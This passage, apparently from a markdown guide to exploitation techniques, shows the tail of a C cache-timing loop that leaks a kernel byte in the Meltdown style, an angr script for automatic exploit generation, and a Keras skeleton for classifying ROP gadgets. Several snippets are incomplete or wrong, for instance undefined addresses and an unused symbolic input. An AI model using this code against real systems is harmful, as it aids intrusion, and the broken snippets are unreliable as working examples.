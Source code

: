 ```c
        uint64_t start = __rdtsc();
        volatile char dummy = probe_array[i * 4096];
        uint64_t end = __rdtsc();
        
        if ((end - start) < CACHE_THRESHOLD) {
            printf("Kernel byte: %02x\n", i);
            break;
        }
    }
}
```

## Exploit Automation

### Automatic Exploit Generation

```python
# Symbolic execution for exploit generation
import angr
import claripy

def auto_exploit_generation(binary_path):
    # Load binary
    project = angr.Project(binary_path)
    
    # Create symbolic input
    flag = claripy.BVS('flag', 8 * 32)  # 32-byte flag
    
    # Set up simulation manager
    simgr = project.factory.simulation_manager()
    
    # Find path to win condition
    simgr.explore(find=win_address, avoid=lose_address)
    
    if simgr.found:
        solution_state = simgr.found[0]
        return solution_state.solver.eval(flag, cast_to=bytes)
    
    return None
```

### ML-Assisted Exploitation

```python
# Neural network for gadget classification
import tensorflow as tf

def train_gadget_classifier():
    model = tf.keras.Sequential([
        tf.keras.layers.Dense(128, activation='relu'),
        tf.keras.layers.Dense(64, activation='relu'),
        tf.keras.layers.Dense(1, activation='sigmoid')
    ])
    
    # Train on gadget features
    model.compile(optimizer='adam', 
                  loss='binary_crossentropy',
                  metrics=['accuracy'])
    
    return model

def find_gadgets_with_ml(binary_data):
    model = load_trained_model()
```
